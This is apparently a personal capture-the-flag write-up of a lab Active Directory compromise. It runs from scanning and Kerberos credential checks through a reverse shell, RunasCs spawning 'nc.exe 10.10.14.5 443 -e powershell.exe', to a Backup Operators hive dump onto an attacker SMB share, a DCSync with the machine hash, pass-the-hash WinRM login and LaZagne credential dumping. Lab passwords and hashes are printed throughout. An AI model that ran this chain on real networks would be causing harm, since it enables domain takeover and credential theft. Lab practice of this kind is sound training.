





We could try to run a TCP portscan via Metaasploit to check if we can find some strage ports

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# nmap 192.168.210.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 11:47 CEST
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 9.50% done; ETC: 11:47 (0:00:29 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.00% done; ETC: 11:47 (0:00:15 remaining)
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 32.20% done; ETC: 11:47 (0:00:11 remaining)
Nmap scan report for 192.168.210.16
Host is up (0.052s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

* * *

## SMB:

We can grab a lot of informations about this machine by just querying the SMB service:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.210.16
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.210.16
[*] Username ......... ''
[*] Random Username .. 'nirxwghz'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.210.16    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:389  ...  OK
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:636  ...  OK
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 192.168.210.16    |
 ======================================================
[*] Trying LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:389  ...  OK
[+] Appears to be root/parent DC
[+] Long domain name is: zsm.local

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.210.16    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.210.16    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: true                                                                                                                                                                                                                                   

 =============================================================
|    Domain Information via SMB session for 192.168.210.16    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: ZPH-SVRCDC01                                                                                                                                                                                                                          
NetBIOS domain name: internal                                                                                                                                                                                                                                
DNS domain: internal.zsm.local                                                                                                                                                                                                                               
FQDN: ZPH-SVRCDC01.internal.zsm.local                                                                                                                                                                                                                        
Derived membership: domain member                                                                                                                                                                                                                            
Derived domain: internal                                                                                                                                                                                                                                     

 ===========================================
|    RPC Session Check on 192.168.210.16    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 192.168.210.16    |
 =====================================================
[+] Domain: internal
[+] Domain SID: S-1-5-21-3056178012-3972705859-491075245
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 192.168.210.16    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                     
OS version: '10.0'                                                                                                                                                                                                                                           
OS release: ''                                                                                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: null                                                                                                                                                                                                                                            
Server type: null                                                                                                                                                                                                                                            
Server type string: null                                                                                                                                                                                                                                     

 =======================================
|    Users via RPC on 192.168.210.16    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 192.168.210.16    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 192.168.210.16    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 192.168.210.16    |
 ===========================================
[*] Trying port 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:445  ...  OK
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.16:139  ...  OK
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 192.168.210.16    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 47.21 seconds
```

As we can see this is another DC but this time being on the realm "ZSM.internal.local"

&nbsp;

* * *

## KERBEROS, back on track:

Now afetr we pwned the management machine we found some saved credentials that marcus used in a Atlassian portal and we found that he used some melissas creds.

If we try to check kerberos on the internal realm we can see that those creds are same as domain creds:

```
msf6 auxiliary(scanner/kerberos/kerberos_login) > run

[*] Using domain: INTERNAL.ZSM.LOCAL - 192.168.210.16:88    ...
[+] 192.168.210.16 - User: "matt" is present
[!] No active DB -- Credential data will not be saved!
[*] 192.168.210.16 - User: "gavin" user not found
[*] 192.168.210.16 - User: "web_svc" user not found
[*] 192.168.210.16 - User: "tom" user not found
[*] 192.168.210.16 - User: "daniel" user not found
[*] 192.168.210.16 - User: "blake" user not found
[*] 192.168.210.16 - User: "riley" user not found
[*] 192.168.210.16 - User: "james" user not found
[*] 192.168.210.16 - User: "marcus" user not found
[+] 192.168.210.16 - User found: "melissa" with password WinterIsHere2022!. Hash: $krb5asrep$18$melissa@INTERNAL.ZSM.LOCAL:20d6b911899fa7913062f6f19686b3e5$e1b5604db6e7ec79a5e1a2b102b325df3d713bf0a69519eb4acbb3b3b3103c1cb728b9b7268fc7ff26ec7abf1aae52fbdc6209300d02aafc5997196057ee0c051165957cd06bdfa2e6348bf4640d54df4a2d95e63b4edb06c71a02ad1caef173c64a0e6cde18d1701037aa9b92ec709cd4e0ae609ff9b1685a3b39bb9f8dae378dbee12b18eeefc31b08c3772e885fb7a323907f31cbd3d2e47aa0fc321aaf02425400f9376bec53748bff5cc336abd60ab3ce150afd02e3db2286a86a4503ddc76fc1252b75c12e3ee11bf4e33080afa41571d8d615faa3b5d9e6e7ce392bd851263e5d50f5d1fed5aafc5e39060fe20343c7441a5787c9cfe9886c6e7869c88b9cdc5
```

This mean we can use bloodhound-python to get new informations from the internal domain:



And uploading the file to Bloodhound we can parse the internal domain:



Melissa is part of Backup operators and support. Next we can writedown all the users from itneral ZSM:



Unfortunately seems like no users are SPN crackable:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Tools]
└─# impacket-GetUserSPNs -dc-ip 192.168.210.16 internal.ZSM.LOCAL/melissa:'WinterIsHere2022!' -request 

Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```

Going back to melissa's account being part of Backup operators opens up on  a PE vector on DC in internal.zsm.local as it let us access DC with SeBackup tokens: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators-1

We can start by checking for possible users on the DC and we can find a password hidden into Description field:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.16 -u melissa -p WinterIsHere2022! --users    
SMB         192.168.210.16  445    ZPH-SVRCDC01     [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCDC01) (domain:internal.zsm.local) (signing:True) (SMBv1:False)
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] internal.zsm.local\melissa:WinterIsHere2022! 
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] Enumerated domain user(s)
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Jamie                          badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Matt                           badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Aron                           badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Malcolm                        badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Steven                         badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Amy                            badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Sarah                          badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Melissa                        badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Laura                          badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Emily                          badpwdcount: 0 desc: 
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\mssql_svc                      badpwdcount: 0 desc: ToughPasswordToCrack123!
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```

We can also see that she have RW permissions on the C$ disk

Next I google around on how we can use this on our advantage and I stubled upon this one: https://github.com/mpgn/BackupOperatorToDA

It says basically that witht his tool we should be able to dump the NDTS from which machine you want to DC without the need of RDP or WIN-rm.

EDIT: It wasn't working, most likely causeb by compiling and retartgeting cause it was designed with VS2109 and I had 2022. So i found out this one instead: https://github.com/improsec/BackupOperatorToolkit/releases/tag/release

I need first to change users as Melissa:

```
*Evil-WinRM* PS C:\temp> ./RunasCs.exe melissa WinterIsHere2022! "C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe" -t 0
[*] Warning: Unable to obtain environment for user 'melissa'. Environment variables of created process might be incorrect.
[+] Running in session 0 with process function CreateProcessWithTokenW()
[+] Using Station\Desktop: Service-0x0-6c1a81$\Default
[+] Async process 'C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe' with pid 2188 created and left in background.
*Evil-WinRM* PS C:\temp> ./RunasCs.exe melissa WinterIsHere2022! "C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe" -t 0
[*] Warning: Unable to obtain environment for user 'melissa'. Environment variables of created process might be incorrect.
[+] Running in session 0 with process function CreateProcessWithTokenW()
[+] Using Station\Desktop: Service-0x0-6c1a81$\Default
[+] Async process 'C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe' with pid 1632 created and left in background.
*Evil-WinRM* PS C:\temp>
```

NNext we should be able to run the tool on behalf of her:

```
PS C:\temp> .\BackupOperatorToolkit.exe DUMP C:\temp \\192.168.210.16
.\BackupOperatorToolkit.exe DUMP C:\temp \\192.168.210.16
DUMP MODE
[+] Connecting to registry hive
[+] hive: SAM
[+] Dumping hive to C:\temp
[+] Connecting to registry hive
[+] hive: SYSTEM
[+] Dumping hive to C:\temp
[+] Connecting to registry hive
[+] hive: SECURITY
[+] Dumping hive to C:\temp
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        17/09/2023     14:17          20992 BackupOperatorToolkit.exe                                            
-a----        17/09/2023     10:18          57344 GodPotato-NET4.exe                                                   
-a----        17/09/2023     10:26       11849245 LaZagne.exe                                                          
-a----        17/09/2023     14:48          38616 nc.exe                                                               
-a----        17/09/2023     10:18           7168 reverse.exe                                                          
-a----        17/09/2023     14:47          49152 RunasCs.exe                                                          
-a----        17/09/2023     10:26        2387456 winPEASx64.exe                                                       


PS C:\temp>
```

EDIT: Here i was doing wrong in a sense that it have to be saved in a Samba share and not possible locally, the samba share need to allow access write from everyone so I setup a samba share first.

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# impacket-smbserver backup -smb2support /home/millycash/Downloads/backup 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

&nbsp;

Next we need to gain a session logged in as INTERNAL/Melissa and to do so we can use Runascs.exe: https://github.com/antonioCoco/RunasCs

```
*Evil-WinRM* PS C:\temp> ./RunasCs.exe Melissa WinterIsHere2022! "C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe" -t 0
[*] Warning: Unable to obtain environment for user 'Melissa'. Environment variables of created process might be incorrect.
[+] Running in session 0 with process function CreateProcessWithTokenW()
[+] Using Station\Desktop: Service-0x0-2551fa$\Default
[+] Async process 'C:\temp\nc.exe 10.10.14.5 443 -e powershell.exe' with pid 2572 created and left in background.
*Evil-WinRM* PS C:\temp>
```

Lastly we should be able to run the Backup toolkit and save the registry hives from DC02 on our samba share:

```
PS C:\temp> .\BackupOperatorToolkit.exe DUMP \\10.10.14.5\backup\ \\192.168.210.16
.\BackupOperatorToolkit.exe DUMP \\10.10.14.5\backup\ \\192.168.210.16
```

We can see that Samba server got something incoming:



And lastly we have the files:



Lastly we should be able to use secrets dump to parse locally on out Kali host those files!

```
└─# impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xb1223a009047a376c120c3630a0f0e48
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5bdd6a33efe43f0dc7e3b2435579aa53:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:dc66f30d3e8bd48b4bfb9c3f53eb66ebda1edbb7af476a9f7650476edce03326b61fabe212dfd9e6c2e06eaaffcab3c78cfd4f47cd564ef53e8eb5d855f9e998c34c5fabc5e713559e090d6e5dc149a97ed653608d5cd07864d7774f2d766512849d4fafff4030324173ccd8cb8c6a1513a348a337c6d46778e4e37bc2e2c2e369626f1f153bdf391f8c175fdae042537016a2198b8c120c738854c907a1ddddcb88aaa517af97bcee783d1d9a36ddc179f2bb5cc8a336a00863183c96384434bb9a8eee781822f51d2727cd14e3fd0841edfa7004eefa2a8e3327b457f34587642e1e91e79a24590d97b8ad6cb14ee7
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d47a6d90e1c5adf4200227514e393948
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xf108ba9fcd3554a2abb82ff4a8d29f0679aeaae6
dpapi_userkey:0xe57f2322d588ce987f04d6a3b1bf31cfa35d050a
[*] NL$KM 
 0000   07 E9 F2 3F 08 49 46 07  02 CE 30 4B 65 D3 86 32   ...?.IF...0Ke..2
 0010   6F 02 5D 36 7D E8 30 33  F4 71 94 44 98 37 CB 1A   o.]6}.03.q.D.7..
 0020   05 CC 76 F1 26 E2 94 E7  D3 54 78 1F EF BE E9 13   ..v.&....Tx.....
 0030   30 3B 62 CB A5 57 75 E6  78 F3 D4 55 5C 68 20 15   0;b..Wu.x..U\h .
NL$KM:07e9f23f0849460702ce304b65d386326f025d367de83033f47194449837cb1a05cc76f126e294e7d354781fefbee913303b62cba55775e678f3d4555c682015
[*] Cleaning up...
```

Lastly we need to use the $MACHINE.ACC full hash to perform a DCSync togheter with the SAMACCOUNTNAME of the DC:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/backup]
└─# impacket-secretsdump INTERNAL/'ZPH-SVRCDC01$'@192.168.210.16 -hashes aad3b435b51404eeaad3b435b51404ee:d47a6d90e1c5adf4200227514e393948 -just-dc-ntlm
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:543beb20a2a579c7714ced68a1760d5e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0540fe51ddd618f42a66ef059ac36441:::
internal.zsm.local\mssql_svc:6101:aad3b435b51404eeaad3b435b51404ee:8cb21ab7f3ee6d782c724216bd88d1d1:::
internal.zsm.local\Emily:6601:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Laura:6602:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Melissa:6603:aad3b435b51404eeaad3b435b51404ee:184260f5bf16a77d67a9d540fda79495:::
internal.zsm.local\Sarah:6604:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Amy:6605:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Steven:6606:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Malcolm:6607:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Aron:6608:aad3b435b51404eeaad3b435b51404ee:8cb21ab7f3ee6d782c724216bd88d1d1:::
internal.zsm.local\Matt:6609:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
internal.zsm.local\Jamie:6610:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
ZPH-SVRCDC01$:1000:aad3b435b51404eeaad3b435b51404ee:d47a6d90e1c5adf4200227514e393948:::
ZPH-SVRCHR$:1601:aad3b435b51404eeaad3b435b51404ee:06e402102d72956c62a63794a999935e:::
ZPH-SVRCSUP$:1602:aad3b435b51404eeaad3b435b51404ee:36e7d551e7cb15ca7dad3fd851fc707f:::
ZSM-SVRCSQL02$:5601:aad3b435b51404eeaad3b435b51404ee:ad854719bbb6fc1664316a14cc6eb88d:::
INT-MAINT$:6102:aad3b435b51404eeaad3b435b51404ee:8c0aff2e562402c147dc9650b1eb86cb:::
ZSM$:1103:aad3b435b51404eeaad3b435b51404ee:9ed7d3fe3d1c5ffb542a83778e57188e:::
[*] Cleaning up...
```

* * *

## POST Exploitation:

Now that we found out the Administrator we should be able to login into DC with those hashes and eventually dump the NDTS locally!

Using these credentials we can login via WINRM and get another flag:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/8/2022   1:41 PM             33 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
ZEPHYR{In73rn4l_D0m41n_D0m1n473d}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Running a Ping scan we can see that this DC can reach the .18 machine:

```
Info: Upload successful!
*Evil-WinRM* PS C:\temp> 1..254 | % {"192.168.210.$($_): $(Test-Connection -count 1 -comp 192.168.210.$($_) -quiet)"}
192.168.210.1: True
192.168.210.2: False
192.168.210.3: False
192.168.210.4: False
192.168.210.5: False
192.168.210.6: False
192.168.210.7: False
192.168.210.8: False
192.168.210.9: False
192.168.210.10: True
192.168.210.11: True
192.168.210.12: True
192.168.210.13: True
192.168.210.14: False
192.168.210.15: False
192.168.210.16: True
192.168.210.17: False
192.168.210.18: True
```

Now I will upload Lazagne, Mimikatz and Winpeas and enumerate the machine!

```
*Evil-WinRM* PS C:\temp> ./lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 03f0c9e1-784e-4f1d-864e-565b6586ee7a
[+] System masterkey decrypted for 22801580-0822-403c-9b61-56e6bd54d1a9
[+] System masterkey decrypted for c6337aa2-394a-4d08-a60c-87be70a4ddf8
[+] System masterkey decrypted for f99da3f9-26ff-4f1c-9965-af7ea0d11469

########## User: SYSTEM ##########

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 6b79003d57453f94bd71e2da0aa410a97a9a7345
Nthash: d47a6d90e1c5adf4200227514e393948
Login: ZPH-SVRCDC01$

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   DC 66 F3 0D 3E 8B D4 8B 4B FB 9C 3F 53 EB 66 EB    .f..>...K..?S.f.
0020   DA 1E DB B7 AF 47 6A 9F 76 50 47 6E DC E0 33 26    .....Gj.vPGn..3&
0030   B6 1F AB E2 12 DF D9 E6 C2 E0 6E AA FF CA B3 C7    ..........n.....
0040   8C FD 4F 47 CD 56 4E F5 3E 8E B5 D8 55 F9 E9 98    ..OG.VN.>...U...
0050   C3 4C 5F AB C5 E7 13 55 9E 09 0D 6E 5D C1 49 A9    .L_....U...n].I.
0060   7E D6 53 60 8D 5C D0 78 64 D7 77 4F 2D 76 65 12    ~.S`...xd.wO-ve.
